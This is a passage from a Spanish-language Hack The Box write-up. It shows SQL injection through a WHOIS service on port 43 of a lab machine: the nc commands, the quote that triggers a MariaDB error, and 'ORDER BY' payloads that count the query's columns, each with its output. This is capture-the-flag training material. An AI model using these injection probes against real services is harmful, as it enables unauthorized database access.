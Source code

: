 Lo miramos con firefox y el host `www.supersechosting.htb` nos muestra algo pero sigue siendo muy poca cosa.

#### Whois {-}

Como el puerto 43 esta abierto. podemos intentar conectar con la maquina para entablar peticiones whois.

```bash
nc 10.10.10.155 43
EEEE
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
% This query returned 0 object
```

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

```bash
nc 10.10.10.155 43
'
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...
```

### SQL Injection por Whois {-}

Como el mensaje nos da `the right syntax to use near "''")` ya vemos como podemos montarnos el ataque.

```bash
nc 10.10.10.155 43
') ORDER BY 100#
#Output
Unknown column '100' in 'order clause'
```

Como vemos que no puede ordenarnos la query por la columna 100 quiere decir que no hay 100 columnas. Investigamos 
para encontrar cuantas columnas hay.

```bash
nc 10.10.10.155 43
') ORDER BY 4#
#Output
Unknown column '4' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 3#
#Output
Unknown column '3' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 2#
#Output
% This query returned 0 object
```
